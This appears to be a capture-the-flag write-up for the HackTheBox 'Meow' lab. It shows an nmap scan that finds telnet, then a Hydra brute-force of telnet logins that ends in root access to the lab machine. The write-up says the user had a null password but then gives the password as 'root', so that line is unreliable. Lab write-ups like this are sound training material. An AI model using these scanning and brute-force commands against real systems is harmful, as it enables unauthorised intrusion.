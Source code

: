 ## MEOW Hackthebox
#### Room Description:
basic room. all you have to do is to scan. find open port. use the relative service to login. get the flag. done.
- Requirements:
  - networking
  - linux
  - nmap
  - hydra (optional)

----
#### First step: `network scan`

First thing I do with any room is to scan the IP address and look for the open ports and the services they are running.
```bash
# nmap command:
nmap -A -sV --privileged -T4 10.129.1.17 -p- -O -sC -v
```
|PORT|STATE|SERVICE|VERSION|
|----|----|----|----|
|23/tcp|**OPEN**|*telnet*|Linux telnetd|

----

#### Getting into the machine
in this phase, I will try to get into the machine that I have already scanned. Since this is a very basic machine so I didn't do any farther research to exploit. I just got into the `telnet` and try to get into. 

but the server is protected with credential.
> HTB gave us a hint that there is a user with null password. so I will try to bruteforse the user name with **Hydra**

```bash
# hydra command
hydra -L /usr/share/wordlists/rockyou.txt -e n 10.129.1.17 telnet

[23][telnet] host: 10.129.1.17   login: root
```
> The password is `root`

Now just get the flag.

it's in the root directory.

